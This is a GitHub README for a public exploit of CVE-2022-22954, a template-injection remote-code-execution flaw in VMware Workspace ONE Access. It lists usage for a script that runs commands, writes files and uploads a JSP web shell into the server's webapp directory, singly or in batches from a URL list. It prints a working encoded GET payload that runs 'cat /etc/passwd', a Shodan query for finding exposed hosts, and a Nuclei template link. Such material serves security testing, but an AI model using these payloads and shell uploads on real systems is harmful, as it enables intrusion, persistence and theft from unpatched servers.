 # CVE-2022-22954
VMware Workspace ONE Access SSTI (RCE)
&nbsp;

## Usage
```bash
// Single target vulnerability detection
python CVE-2022-22954.py -u https://x.x.x.x

// Command execution
python CVE-2022-22954.py -u https://x.x.x.x -c "id"

// Write file
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fc "test"

// Upload a file, Windows needs to specify the path to set the file name
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fp "D:\Desktop\shell.jsp"

// Upload to the specified path
python CVE-2022-22954.py -u https://x.x.x.x -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp"

// Batch detection, consistent usage
python CVE-2022-22954.py -f url.txt
python CVE-2022-22954.py -f url.txt -c "id" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fc "test" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fp "D:\Desktop\shell.jsp" -t 200
python CVE-2022-22954.py -f url.txt -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp" -t 200
```
&nbsp;

## POC
Use following GET request to execute ```cat /etc/passwd``` command.
```
TARGET.COM/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
 ```
 ```
 Decoded Payload:
 ${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
 ```
Video:
 [![Watch the video](./CVE-2022-22954-poc.png)](https://www.youtube.com/watch?v=YVIW-uKgvPI)
&nbsp;

## Shodan Query:
```
http.favicon.hash:-1250474341 
```
&nbsp;

## Nuclei Template:
[CVE-2022-22954.yaml](https://github.com/NafisiAslH/KnowledgeSharing/blob/main/CyberSecurity/Web/CVEs/CVE-2022-22954/CVE-2022-22954.yaml)
</br>&nbsp;

## Credit
[sherlocksecurity](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)'s github page.</br>
[MLX15](https://github.com/MLX15/CVE-2022-22954)'s github page.</br>
[Punit Darji](https://www.youtube.com/watch?v=YVIW-uKgvPI)'s youtube video.</br>
